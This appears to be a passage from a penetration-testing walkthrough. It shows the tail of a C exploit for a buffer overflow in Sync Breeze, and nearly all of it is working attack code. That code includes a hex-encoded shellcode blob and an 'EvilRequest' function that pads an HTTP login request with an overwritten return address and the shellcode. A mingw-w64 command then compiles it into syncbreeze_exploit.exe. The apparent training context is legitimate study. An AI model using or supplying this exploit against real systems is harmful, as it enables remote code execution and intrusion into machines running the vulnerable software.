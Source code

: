 ``` c
   "\xed\x7f\x59\x5a\x86\xcc\x4f\xda\x7b\x84\x6e\xcb\x2a\x9e\x28"
   "\xcb\xcd\x73\x41\x42\xd5\x90\x6c\x1c\x6e\x62\x1a\x9f\xa6\xba"
   "\xe3\x0c\x87\x72\x16\x4c\xc0\xb5\xc9\x3b\x38\xc6\x74\x3c\xff"
   "\xb4\xa2\xc9\x1b\x1e\x20\x69\xc7\x9e\xe5\xec\x8c\xad\x42\x7a"
   "\xca\xb1\x55\xaf\x61\xcd\xde\x4e\xa5\x47\xa4\x74\x61\x03\x7e"
   "\x14\x30\xe9\xd1\x29\x22\x52\x8d\x8f\x29\x7f\xda\xbd\x70\xe8"
   "\x2f\x8c\x8a\xe8\x27\x87\xf9\xda\xe8\x33\x95\x56\x60\x9a\x62"
   "\x98\x5b\x5a\xfc\x67\x64\x9b\xd5\xa3\x30\xcb\x4d\x05\x39\x80"
   "\x8d\xaa\xec\x07\xdd\x04\x5f\xe8\x8d\xe4\x0f\x80\xc7\xea\x70"
   "\xb0\xe8\x20\x19\x5b\x13\xa3\xe6\x34\x29\x37\x8f\x46\x4d\x36"
   "\xf4\xce\xab\x52\x1a\x87\x64\xcb\x83\x82\xfe\x6a\x4b\x19\x7b"
   "\xac\xc7\xae\x7c\x63\x20\xda\x6e\x14\xc0\x91\xcc\xb3\xdf\x0f"
   "\x78\x5f\x4d\xd4\x78\x16\x6e\x43\x2f\x7f\x40\x9a\xa5\x6d\xfb"
   "\x34\xdb\x6f\x9d\x7f\x5f\xb4\x5e\x81\x5e\x39\xda\xa5\x70\x87"
   "\xe3\xe1\x24\x57\xb2\xbf\x92\x11\x6c\x0e\x4c\xc8\xc3\xd8\x18"
   "\x8d\x2f\xdb\x5e\x92\x65\xad\xbe\x23\xd0\xe8\xc1\x8c\xb4\xfc"
   "\xba\xf0\x24\x02\x11\xb1\x45\xe1\xb3\xcc\xed\xbc\x56\x6d\x70"
   "\x3f\x8d\xb2\x8d\xbc\x27\x4b\x6a\xdc\x42\x4e\x36\x5a\xbf\x22"
   "\x27\x0f\xbf\x91\x48\x1a";

    char request_three[] = "&password=A";

    int content_length = 9 + strlen(padding) + strlen(retn) + strlen(shellcode) + strlen(request_three);
    char *content_length_string = malloc(15);
    sprintf(content_length_string, "%d", content_length);
    int buffer_length = strlen(request_one) + strlen(content_length_string) + initial_buffer_size + strlen(retn) + strlen(request_two) + strlen(shellcode) + strlen(request_three);

    char *buffer = malloc(buffer_length);
    memset(buffer, 0x00, buffer_length);
    strcpy(buffer, request_one);
    strcat(buffer, content_length_string);
    strcat(buffer, request_two);
    strcat(buffer, padding);
    strcat(buffer, retn);
    strcat(buffer, shellcode);
    strcat(buffer, request_three);

    SendRequest(buffer, strlen(buffer));
}

int main() {

    EvilRequest();
    return 0;
}
```

Will compile the exploit code using **mingw-w64** to determine if it generates any errors:
```
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
